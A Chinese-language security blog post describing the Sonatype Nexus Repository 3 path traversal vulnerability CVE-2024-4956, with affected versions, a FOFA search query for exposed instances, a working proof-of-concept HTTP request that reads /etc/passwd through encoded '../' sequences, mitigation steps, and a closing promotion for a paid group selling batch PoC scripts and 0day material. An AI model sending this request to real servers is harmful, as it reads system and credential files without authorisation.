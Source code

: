 #  Sonatype Nexus Repository 3 路径遍历漏洞(CVE-2024-4956)   
冷漠安全  冷漠安全   2024-05-25 23:07  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0qRzaH5GUoT3wjfxgNKKQaVgq5UdQuTjibZ7l0YMRTIbMrfABFictia4ZEXKWAic1RbHRib9CiajtbcKQcw/640?wx_fmt=gif&from=appmsg "")  
  
**0x01 免责声明**  
  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
**产品介绍**  
  
Sonatype Nexus Repository 是美国Sonatype公司的一款存储库管理器，用于存储和分发软件组件、构建工件和 Docker 容器。它支持多种包格式，与 CI/CD 工具集成，并提供安全性和合规性功能  
。  
  
0x03  
  
**漏洞威胁**  
  
2024年5月，Nexus Repository官方Sonatype发布了新补丁，修复了一处路径穿越漏洞CVE-2024-4956。经分析，该漏洞可以通过特定的路径请求来未授权访问系统文件，进而可能导致信息泄露。该漏洞无前置条件且利用简单，建议受影响的客户尽快修复漏洞。  
  
Nexus Repository仅依赖Jetty自带的方法进行请求路径的安全检查，而未进行深入的验证，导致攻击者可以利用路径穿越攻击访问文件系统上的任意位置。  
  
成功利用这一漏洞的攻击者可以读取Nexus Repository服务器上的任意文件，这可能包括配置文件、数据库备份以及其他敏感数据。此外，特定情况下如果攻击者能够进一步利用服务器上的其他配置或漏洞，可能会完全控制受影响的服务器。  
  
影响范围：  
```
Sonatype Nexus Repository 3 < 3.68.1
```  
  
  
0x04  
  
**漏洞环境**  
  
FOFA:  
```
app="Nexus-Repository-Manager"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qMqW20fO5BTb2vMDo7Z79opibU4XdNtWqOAYkk9e3U4AN4m8jdXxeD2LtutgGA6UY2TRQGrrvjpWw/640?wx_fmt=png&from=appmsg "")  
  
0x05  
  
**漏洞复现**  
  
POC  
```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qMqW20fO5BTb2vMDo7Z79oYibibO9ILnl0mws8ffx9JW9DKjPKdcxOyZbXcB9ibGSYDHAItZL5YYcBg/640?wx_fmt=png&from=appmsg "")  
  
  
0x06  
  
**批量脚本验证**  
  
Nuclei验证脚本已发布  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qMqW20fO5BTb2vMDo7Z79ongghVmpKaScKBxlZLnqaUJhh9lficsU7EvGDIiaTwqib2FNzKjQfr4yCQ/640?wx_fmt=png&from=appmsg "")  
  
0x07  
  
**修复建议**  
  
目前官方已有可更新版本，建议受影响用户升级至最新版本：  
```
Sonatype Nexus Repository 3 < 3.68.1
```  
  
官方下载地址：  
```
https://help.sonatype.com/repomanager3/download
```  
  
缓解方案：  
  
对于 Sonatype Nexus Repository 的每个实例，编辑  
  
(basedir)/etc/jetty/jetty.xml 并从文件中删除这一行：  
```
<Set name="resourceBase"><Property name="karaf.base"/>/public</Set>
```  
  
重新启动 Nexus 存储库以使更改生效。  
  
注意：此更改可防止利用该漏洞，但也会防止应用程序从 （installdir）/public 目录加载文件，可能会导致轻微的UI渲染问题，而不会影响核心产品功能。  
  
如果对 Nexus Repository 的访问受 AWS WAF 规则保护，则 GenericLFI_URIPATH 规则可以防范此漏洞。  
```
https://docs.aws.amazon.com/waf/latest/developerguide/aws-managed-rule-groups-baseline.html
```  
  
  
0x08  
  
**加入我们**  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全交个朋友，限时优惠券：加入立减25星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qMqW20fO5BTb2vMDo7Z79oZCc4fLHzS3gEbPMlk5ntRaSEP6kHaaLxhevniaAicsg71zEFDD1Yiat3A/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0qMqW20fO5BTb2vMDo7Z79okBV6w9ZuDwJ6VV3YyNXcibVtLH3iaicPRx4iaGtvhayGzvyziaGhouiaUFBw/640?wx_fmt=gif&from=appmsg "")  
  
  
